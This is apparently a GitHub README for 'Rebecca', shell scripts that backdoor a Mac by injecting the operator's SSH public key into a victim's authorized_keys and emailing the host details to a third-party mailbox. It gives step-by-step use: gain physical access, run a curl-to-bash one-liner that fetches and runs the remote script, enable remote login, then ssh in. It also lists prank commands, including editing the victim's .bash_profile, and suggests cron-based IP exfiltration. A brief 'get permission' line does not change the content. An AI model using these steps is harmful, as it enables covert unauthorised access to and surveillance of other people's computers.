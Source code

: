# Rebecca
Rebecca gives you access to another user's mac PC. Rebecca injects ssh key into the victim's mac PC thus giving remote access.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's mac PC and email relevant information for ssh to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's mac PC.

## Why Rebecca was created?
Rebecca was created for fun :smirk:.

With ssh access, one can make a mac talk to the user, launch random browsers, sleep the mac PC, etc. Some interesting commands to play with:
```
say -v veena hello world
open "http://google.com"
pmset sleepnow
echo "alias ls='say -v veena hello, why are you touching me'" >> ~/.bash_profile
```

## How to use Rebecca?
Before using Rebecca, there are a few configurations to make:
1. you will want to clone this to your own github respository
2. you will want to create a rsa key pair if you don't have one
3. change the rsa public key in rebecca.sh to your own rsa public key (add your own identifier at the end)
4. change the third party mailbox in rebecca.sh to your own mailbox
5. change identifier in purge.sh to your identifier otherwise purge.sh will not work

Steps to gain access:
1. get physical access of a person's mac PC
2. open terminal and run the bash command that links to rebecca.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`
3. turn on remote login sharing
4. check mailbox for hostname and ip address
5. ssh in with the hostname and ip address, e.g.
* `ssh -i private_rsa_key_file hostname@192.168.123.123`

To remove from user's mac PC:
1. open terminal and run the bash command that links to purge.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

## Possible improvements
Rebecca relies on the ip address of the user's PC. In the event where the user is assigned another ip address, it will be impossible to ssh in. A solution to this problem would be to set up a scheduled job on the user's PC to send out its ip address in an email (crontabs?). There is currently no intention to further improve rebecca as this is only an experimental project.

## Credits
Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops :grin:.
